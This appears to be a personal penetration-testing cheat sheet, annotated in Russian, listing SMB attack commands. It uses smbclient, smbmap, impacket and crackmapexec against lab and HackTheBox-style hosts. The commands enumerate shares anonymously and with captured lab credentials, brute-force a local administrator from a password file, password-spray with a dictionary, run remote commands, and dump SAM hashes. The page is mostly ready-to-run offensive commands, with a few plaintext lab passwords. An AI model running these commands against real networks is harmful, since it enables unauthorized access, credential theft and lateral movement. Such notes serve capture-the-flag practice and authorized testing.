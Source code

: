 smbclient -L 192.168.50.200 -U Administrator

smbclient //192.168.50.162/Users -U Alex - переход по директориям

<< smbclient \\\\192.168.50.232\\Users -U Alexs >>

smbmap -H 10.10.149.120 -u anonymous

smbmap -u '' -p '' -H 10.10.149.120



smbmap -u 'john' -p 'nt:lm_hash' -H 192.168.50.200

smbmap -d active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -H 10.10.10.100      !Для домена!

impacket-smbclient Tiffany.Molina:NewIntelligenceCorpUser9876@10.10.10.248
impacket-smbclient -k absolute.htb/svc_smb@dc.absolute.htb -target-ip 10.10.11.181 (перед этим получить tgt и  export KRB5CCNAME= )
- shares - list available shares
- use {sharename} - connect to an specific share

Скачать сетевую шару!!!

smbget -R smb://10.10.11.207/Development

Примонтировать smb шару

mount -t cifs //10.10.10.134/Backups /mnt/smb


# (NXC) crackmapexec

Показать доступные пользователю шары

	crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares

Брут локального администратора 

	cme smb discovery/hosts/windows.txt --local-auth -u Administrator -p passwords.txt
 
	выполнение комманнд

	crackmapexec 192.168.50.200 -u 'Administrator' -p 'Pass1' 'Pass2' -x ipconfig

	crackmapexec smb 10.10.38.153 -u 'nik' -p 'ToastyBoi!' --shares  -Доступные шары для узера

	crackmapexec smb 10.10.11.222 -u '' -p '' --shares   -анонимный вход

	парольные политики

	crackmapexec 192.168.50.200 -u 'Administrator' -p 'Pass1' 'Pass2' --pass-pol

	crackmapexec 192.168.50.200 -u 'Administrator' -p 'Pass1' 'Pass2' --local-auth --sam

	Перечисление открытых шар сети

	crackmapexec smb 192.168.50.200/24

	crackmapexec smb 192.168.50.162 -u 'Kevin' -p dict.txt (Password spray)

	

**************************************************************************************************************************************
